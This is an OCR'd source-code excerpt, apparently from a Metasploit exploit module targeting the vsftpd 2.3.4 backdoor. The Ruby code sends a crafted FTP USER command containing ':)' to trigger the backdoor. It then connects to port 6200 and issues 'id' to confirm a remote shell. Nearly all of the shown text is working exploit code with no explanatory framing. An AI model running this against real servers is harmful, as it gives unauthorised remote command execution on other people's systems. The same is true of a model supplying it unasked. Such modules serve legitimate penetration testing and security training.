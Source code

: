```rb
			'DefaultTarget' => 0))

		register_options([ Opt::RPORT(21) ], self.class)
	end

	def exploit

		nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
		if nsock
			print_status("The port used by the backdoor bind listener is already open")
			handle_backdoor(nsock)
			return
		end

		# Connect to the FTP service port first
		connect

		banner = sock.get_once(-1, 30).to_s
		print_status("Banner: #{banner.strip}")

		sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
		resp = sock.get_once(-1, 30).to_s
		print_status("USER: #{resp.strip}")

		if resp =~ /^530 /
			print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
			disconnect
			return
		end

		if resp !~ /^331 /
			print_error("This server did not respond as expected: #{resp.strip}")
			disconnect
			return
		end

		sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

		# Do not bother reading the response from password, just try the backdoor
		nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
		if nsock
			print_good("Backdoor service has been spawned, handling...")
			handle_backdoor(nsock)
			return
		end

		disconnect

	end

	def handle_backdoor(s)

		s.put("id\n")

		r = s.get_once(-1, 5).to_s
		if r !~ /uid=/
			print_error("The service on port 6200 does not appear to be a shell")
			disconnect(s)
			return
		end

		print_good("UID: #{r.strip}")
```